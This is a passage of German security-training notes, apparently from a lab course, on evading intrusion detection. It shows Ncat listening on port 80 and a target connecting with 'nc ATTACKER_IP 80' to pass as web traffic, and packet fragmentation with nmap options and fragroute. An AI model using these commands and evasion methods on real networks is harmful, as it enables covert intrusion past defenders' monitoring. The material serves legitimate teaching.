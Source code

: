 Alternativ können Sie den Verkehr so erscheinen lassen, als wäre es Web-Verkehr, bei dem Clients mit einem HTTP-Server kommunizieren.

- **Auf der Angreifer-Maschine**, um Ncat dazu zu bringen, auf TCP-Port 80 zu lauschen, wie es ein harmloser Webserver tun würde, verwenden Sie:
  ```plaintext
  ncat -lvnp 80
  ```
- **Auf dem Ziel**, um sich mit dem lauschenden Server zu verbinden, verwenden Sie:
  ```plaintext
  nc ATTACKER_IP 80
  ```
![2024-07-28-b85668a256470594ea8a6310f68b5f86.png](Bilder/2024-07-28-b85668a256470594ea8a6310f68b5f86.png)

### Verwendung von Sitzungsspaltung (IP-Paketfragmentierung)

Ein weiterer Ansatz im IPv4-Netzwerk ist die IP-Paketfragmentierung, auch bekannt als Sitzungsspaltung. Die Annahme ist, dass Sie durch das Zerlegen von Paket(en), die mit einem Angriff zusammenhängen, in kleinere Pakete, die IDS-Signaturen umgehen können. Wenn das IDS nach einem bestimmten Byte-Strom sucht, um die bösartige Nutzlast zu erkennen, teilen Sie Ihre Nutzlast auf mehrere Pakete auf. Es sei denn, das IDS setzt die Pakete wieder zusammen, wird die Regel nicht ausgelöst.

Nmap bietet einige Optionen zur Fragmentierung von Paketen. Sie können folgende Optionen hinzufügen:

- **-f** um die Daten im IP-Paket auf 8 Bytes zu begrenzen.
- **-ff** um die Daten im IP-Paket auf maximal 16 Bytes zu begrenzen.
- **--mtu SIZE** um eine benutzerdefinierte Größe für die Daten im IP-Paket anzugeben. Die Größe sollte ein Vielfaches von 8 sein.

Wenn Sie alle Ihre Pakete auf spezifische Größen fragmentieren möchten, sollten Sie ein Programm wie Fragroute in Betracht ziehen. `fragroute` kann so konfiguriert werden, dass es eine Reihe von Regeln aus einer gegebenen Konfigurationsdatei liest und auf eingehende Pakete anwendet. Für einfache IP-Paketfragmentierung reicht es aus, eine Konfigurationsdatei mit `ip_frag SIZE` zu verwenden, um die IP-Daten gemäß der angegebenen Größe zu fragmentieren. Die Größe sollte ein Vielfaches von 8 sein.

Zum Beispiel können Sie eine Konfigurationsdatei `fragroute.conf` mit einer Zeile `ip_frag 16` erstellen, um Pakete zu fragmentieren, bei denen die IP-Datenfragmente 16 Bytes nicht überschreiten. Dann würden Sie den Befehl `fragroute -f fragroute.conf HOST` ausführen. Der Host ist das Ziel, an das wir die fragmentierten Pakete senden würden.

### Versenden ungültiger Pakete
